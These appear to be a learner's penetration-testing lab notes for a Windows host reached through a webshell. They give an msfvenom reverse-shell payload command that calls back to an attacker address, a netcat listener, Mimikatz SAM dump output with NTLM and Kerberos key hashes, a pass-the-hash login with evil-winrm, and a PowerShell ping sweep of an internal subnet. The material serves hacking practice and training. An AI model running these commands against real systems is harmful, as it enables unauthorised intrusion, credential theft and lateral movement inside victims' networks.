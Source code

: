 Visit webshell provided in Description of assessment

#### Upgrading the shell

Generate a reverse shell exe with [[msfvenom]]
```bash-session
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.36 LPORT=1234 -f exe > shell-x64.exe
```
This shell is uploaded throught the webshell interface along with a [[Mimikatz]].exe binary.

a listener is started on the attack host

```bash-session
nc -lvnp 1234
```

the reverse shell exe is then executed with the following  command throught the web shell

```powershell-session
& “C:\shell-x64.exe”
```
Since we land on the system as the system user we can execute hte mimikatz binary and retrieve any credss same in memory

```
mimikatz # lsadump::sam
Domain : WEB-WIN01
SysKey : 908b8788f43a4425cb000861860970e3
Local SID : S-1-5-21-279593051-708607744-3403857608

SAMKey : 6769002d0925ddf06b5dbf8c0cb36218

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: bdaffbfe64f1fc646a3353be1c2c3c99

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 67dabe73f9a128df16e3b06ff4dac8d3

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-MSALO6CQSURAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 93825828ca405d1c5b433c870b25513745369e6dce832532a1525da12f0a2523
      aes128_hmac       (4096) : 78c109e5b2100e3a593b53a2998c10c7
      des_cbc_md5       (4096) : efb0d662b66dfe37
    OldCredentials
      aes256_hmac       (4096) : 23cbc0dad348bebcbdbb4c82e9b23af299e8b56de358bafe24f2235f34497e4a
      aes128_hmac       (4096) : e35eb565af30c8ed79df5d8875508df6
      des_cbc_md5       (4096) : 4904021983252cd5
    OlderCredentials
      aes256_hmac       (4096) : 57f1c79e0c75aa5308b9c8afcce610622a378fcd608ce49aaeabda5e92e578a5
      aes128_hmac       (4096) : e86a018820c2bf69562a282cdea6d2c0
      des_cbc_md5       (4096) : 490432b320157c92

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-MSALO6CQSURAdministrator
    Credentials
      des_cbc_md5       : efb0d662b66dfe37
    OldCredentials
      des_cbc_md5       : 4904021983252cd5


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
```

Now that we have the NTLM hash for the administrator account we can use a pass the hash attack with [[evil-winrm]] 

```bash-session
evil-winrm -u administrator -H bdaffbfe64f1fc646a3353be1c2c3c99 -i 10.129.202.242
```

ipconfig is used to identify subnets our host machine has access to.

```pwoershell-session
1..255 | % {"172.16.6.$($_): $(Test-Connection -count 1 -comp 172.16.6.$($_) -quiet)"}
```

and several hosts are identified

```powershell-session
172.16.6.3: True
172.16.6.50: True
172.16.6.100: True
```

